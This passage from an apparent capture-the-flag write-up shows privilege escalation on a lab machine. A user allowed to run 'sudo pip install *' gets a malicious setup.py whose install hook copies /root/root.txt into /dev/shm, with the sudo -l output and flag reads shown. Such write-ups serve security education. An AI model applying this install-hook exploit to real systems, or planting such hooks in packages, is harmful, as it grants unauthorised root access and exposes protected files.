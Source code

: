 
#### user.txt

On as homer, user.txt is now readable:

    
    
    homer@canape:~$ wc -c user.txt
    33 user.txt
    
    homer@canape:~$ cat user.txt
    bce91869...
    

## Privesc: homer –> root

### sudo pip

homer can run pip with sudo:

    
    
    homer@canape:/dev/shm$ sudo -l
    Matching Defaults entries for homer on canape:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User homer may run the following commands on canape:
        (root) /usr/bin/pip install *
    

That means I’m going to write a malicious `setup.py` file.

### Read root.txt

Make a malicious setup.py file that will get root.txt:

    
    
    from setuptools import setup
    from setuptools.command.install import install
    
    class Exploit(install):
        def run(self):
            with open('/root/root.txt', 'r') as fin:
                with open('/dev/shm/0xdf', 'w') as fout:
                    fout.write(fin.read())
    
    setup(
        cmdclass={
            "install": Exploit
        }
    )
    

From there, just run pip on the local directory:

    
    
    homer@canape:/dev/shm$ ls
    setup.py
    